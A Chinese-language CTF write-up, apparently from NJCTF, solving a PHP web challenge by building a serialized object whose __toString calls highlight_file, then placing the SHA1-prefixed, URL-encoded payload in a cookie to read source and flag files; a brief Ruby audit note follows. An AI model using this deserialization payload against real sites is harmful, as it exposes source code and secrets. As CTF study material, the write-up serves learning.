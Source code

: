 感觉确实有点奇怪

### Text wall

在页面里存在.index.php.swo

显然，我们要调用__toString函数去highlight_file我们想看到的数据。

这里用到了一个小技巧，php中数组里面有一个对象，它会期望那个对象为string类型。所以，如果对象是一个序列化就会自动调用__toString

所以，我们可以这样构造

```php
$lists = [];
Class filelist{
    function __construct($var){
        $this->source = $var;
    }
    public function __toString()
    {
        return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);
    }
}

$file = new filelist('index.php');
$lists = array($file);
#var_dump(serialize($file));
var_dump(serialize($lists));
```

然后，对其sha1 补充到前面，后面url编码一下，放到cookie里面

```url
f3a6de2497f71356a3995e26a1f4f64ae48e80b1%61%3a%31%3a%7b%69%3a%30%3b%4f%3a%38%3a%22%66%69%6c%65%6c%69%73%74%22%3a%31%3a%7b%73%3a%36%3a%22%73%6f%75%72%63%65%22%3b%73%3a%39%3a%22%69%6e%64%65%78%2e%70%68%70%22%3b%7d%7d
```

这样就能看到index.php的源码

![index](https://momomoxiaoxi.com/img/post/NJCTF/index.png)

/var/www/PnK76P1IDfY5KrwsJrh1pL3c6XJ3fj7E_fl4g同样序列化读取一下就好

PS: 据说可以找到原题：[https://losfuzzys.github.io/writeup/2016/10/02/tumctf-web50/](https://losfuzzys.github.io/writeup/2016/10/02/tumctf-web50/)

### Blog

ruby的代码审计 不大会

Tips：ruby审计思路，i可以首先看route 然后找逻辑。对应着页面找到实现代码

看了下别人的WP

主要问题在于，table users在定义的时候，有一列标志其是否为admin，默认为false

```ruby

  create_table "users", force: true do |t|
    t.string   "name"
    t.string   "email"
    t.datetime "created_at"
    t.datetime "updated_at"
    t.string   "password_digest"
    t.string   "remember_token"
    t.boolean  "admin",           default: false
  end

```

